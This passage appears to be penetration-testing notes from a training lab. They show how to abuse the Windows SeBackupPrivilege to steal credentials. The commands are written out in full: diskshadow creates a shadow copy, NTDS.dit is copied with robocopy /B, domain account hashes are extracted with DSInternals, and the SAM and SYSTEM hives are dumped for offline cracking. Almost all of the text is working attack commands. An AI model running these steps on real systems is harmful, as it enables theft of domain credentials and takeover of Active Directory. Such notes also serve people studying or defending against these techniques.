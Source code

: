     # create a shadow copy of C drive and expose as E drive
    diskshadow.exe

    set verbose on
    set metadata C:\Windows\Temp\meta.cab
    set context clientaccessible
    set context persistent
    begin backup
    add volume C: alias cdrive
    create
    expose %cdrive% E:
    end backup
    exit

    dir E:
    # shadow copy of C drive

    # now, we can copy NTDS.dit locally
    Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
    
    # we can use inbuilt tools like robocopy to take backup of NTDS.dit, locally
    # in cmd
    robocopy /B E:\Windows\NTDS .\ntds ntds.dit

    # to extract creds from NTDS.dit, we can use secretsdump.py or PS DSInternals module

    # using DSInternals
    Import-Module .\DSInternals.psd1
    $key = Get-BootKey -SystemHivePath .\SYSTEM

    Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
    ```

    ```cmd
    # with SeBackupPrivilege, we can take backup of registry hives, which can be locally cracked
    reg save HKLM\SYSTEM SYSTEM.SAV

    reg save HKLM\SAM SAM.SAV
    ```
